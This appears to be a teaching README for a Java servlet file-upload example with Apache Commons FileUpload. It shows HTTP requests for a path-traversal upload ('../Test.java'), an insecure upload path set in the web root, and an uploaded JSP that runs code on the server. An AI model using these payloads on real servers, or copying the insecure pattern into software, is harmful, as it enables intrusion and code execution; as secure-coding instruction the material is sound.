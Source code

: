 # Example: Servlet-FileUpload

You can access the Web application from your browser:

URL: http://localhost:8080/Servlet-FileUpload

The example can be built using Maven:
```
$ mvn wildfly:deploy
```

## Upload a File
Select a file and upload this file into this Web application.
Have a look on the HTTP request and response to understand what is going on:

**HTTP-Request**:
```
    POST /Servlet-FileUpload/UploadServlet HTTP/1.1
    Host: localhost:8080
    Referer: http://localhost:8080/Servlet-FileUpload/
    Content-Type: multipart/form-data; boundary=---------------------------7293606662123211822944859480
    Content-Length: 344
    
    -----------------------------7293606662123211822944859480
    Content-Disposition: form-data; name="file"; filename="Test.java"
    Content-Type: text/x-java
    
    public class Test
    {
        public static void main(String... args)
        {
            int i;
            System.out.println(i);
        }
    }
    -----------------------------7293606662123211822944859480--
```
		
**HTTP-Response**:
```
    HTTP/1.1 200 OK
    Content-Type: text/html;charset=ISO-8859-1
    Date: Sun, 22 Feb 2015 15:55:52 GMT
    Content-Length: 287
    
    <html>
    <head>
    <title>Servlet upload</title>
    </head>
    <body>
    Uploaded File:<br>
    field name    = file<br>
    file name     = Test.java<br>
    content type  = text/x-java<br>
    isInMemory    = true<br>
    size in bytes = 126<br>
    File saved to    : /home/student/Downloads/Test.java<br>
    </body>
    </html>
```

## Attack: Modify Request Parameter "filename"

If `FileItem.getName()` is used to calculate the final file path, we can start
a path-traversal attack:
   Intercept the HTTP request and change the request parameter "filename",
   for example: `filename="../Test.java"`

**HTTP Request (modified)**:
```
    POST /Servlet-FileUpload/UploadServlet HTTP/1.1
    Host: localhost:8080
    Referer: http://localhost:8080/Servlet-FileUpload/
    Content-Type: multipart/form-data; boundary=---------------------------14738018361724325900162734879
    Content-Length: 349
    
    -----------------------------14738018361724325900162734879
    Content-Disposition: form-data; name="file"; filename="../Test.java"      !!!!!!!!!!
    Content-Type: text/x-java
    
    public class Test
    {
        public static void main(String... args)
        {
            int i;
    
            System.out.println(i);
        }	
    }
    
    -----------------------------14738018361724325900162734879--
```

**HTTP-Response**:
```
    HTTP/1.1 200 OK
    Content-Type: text/html;charset=ISO-8859-1
    Date: Sun, 22 Feb 2015 16:00:58 GMT
    Content-Length: 293
    
    <html>
    <head>
    <title>Servlet upload</title>
    </head>
    <body>
    Uploaded File:<br>
    field name    = file<br>
    file name     = ../Test.java<br>
    content type  = text/x-java<br>
    isInMemory    = true<br>
    size in bytes = 126<br>
    File saved to    : /home/student/Downloads/../Test.java<br>     !!!!!!!!!!!!!!
    </body>
    </html>	
```

## Attack: Inject JSP File into the Web Application
-------------------------------------------------------------------------------	

If we set the upload-path within the Web-application's root directory, or we can
use a path traversal attack to access this directory, we can upload and execute 
files from the browser:
```
	public void init()
	{
		// Get the file location where it would be stored.
		filePath = getServletContext().getRealPath("/"); //!!! Don't do that
	}
```
In the browser we can upload a **Java Server Page (JSP)** like this `hack.jsp` file:
```
	<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
	<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
	<html>
	<head>
	<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
	<title>File Upload Attack</title>
	</head>
	<body>
	    <h1>This file has been uploaded from a user...</h1>
	    Web-Root: <%=application.getRealPath("/") %><br>
	<% // Scriptlet
	    java.util.Date date = new java.util.Date();
	    out.println( date );
	    out.println( "<BR>Your machine's address is " );
	    out.println( request.getRemoteHost());
	%>
	</body>
	</html>
```
Now, we can a execute the JSP by browsing to: http://localhost:8080/Servlet-FileUpload/hack.jsp


## Apache Commons FileUpload Library

### `ServletFileUpload`
This class handles multiple files per single HTML widget, sent using `multipart/mixed` 
encoding type, as specified by RFC 1867. 
Use `parseRequest(HttpServletRequest)` to acquire a list of `FileItems` associated with a 
given HTML widget.
How the data for individual parts is stored is determined by the factory used to 
create them; a given part may be in memory, on disk, or somewhere else.

* `public static final boolean isMultipartContent(HttpServletRequest request)`\
	Utility method that determines whether the request contains multipart content.

* `public List<FileItem> parseRequest(HttpServletRequest request)`\
	Processes an RFC 1867 compliant `multipart/form-data` stream.


### `DiskFileItemFactory`

The default FileItemFactory implementation. 
This implementation creates FileItem instances which keep their content either in memory, 
for smaller items, or in a temporary file on disk, for larger items. The size threshold, 
above which content will be stored on disk, is configurable, as is the directory in which 
temporary files will be created.

If not otherwise configured, the default configuration values are as follows:
* Size threshold is 10KB.
* Repository is the system default temp directory, as returned by 
	  `System.getProperty("java.io.tmpdir")`.

* `public void setSizeThreshold(int sizeThreshold)`\
	Sets the size threshold beyond which files are written directly to disk.

* `public void setRepository(File repository)`\
	Sets the directory used to temporarily store files that are larger than the 
	configured size threshold.
	Names used for temp files are like: `upload_b5c448d6_5a4e_4aba_b6bf_21b398652ab4_00000000.tmp`


### `FileItem`
This class represents a file or form item that was received within a `multipart/form-data` 
POST request.
You may either request all contents of the file at once using `get()` or request an 
`InputStream` with `getInputStream()` and process the file without attempting to load it 
into memory, which may come handy with large files.

* `String getName()`\
	Returns the original filename in the client's filesystem, as provided by the browser 
	(or other client software). In most cases, this will be the base file name, without 
	path information. However, some clients, such as the Opera browser, do include path 
	information.

* `String getFieldName()`\
	Returns the name of the field in the multipart form corresponding to this file item.

* `String getContentType()`\
	Returns the content type passed by the browser or null if not defined.

* `long getSize()`\
	Returns the size of the file item.

* `boolean isInMemory()`\
	Provides a hint as to whether or not the file contents will be read from memory.

	
## References

* [Apache Commons FileUpload](http://commons.apache.org/proper/commons-fileupload/using.html)

* [File upload with Primefaces](http://www.java-tutorial.ch/java-server-faces/file-upload-with-primefaces)
	
* [Why File Upload Forms are a Major Security Threat](http://www.acunetix.com/websitesecurity/upload-forms-threat/)

* Jim Manico, August Detlefsen. **Iron-Clad Java: Build Secure Web Applications**. Oracle Press, 2015
     * Chapter 8: Safe File Upload and File I/O
     
*Egon Teiniker, 2019-2021, GPL v3.0*	     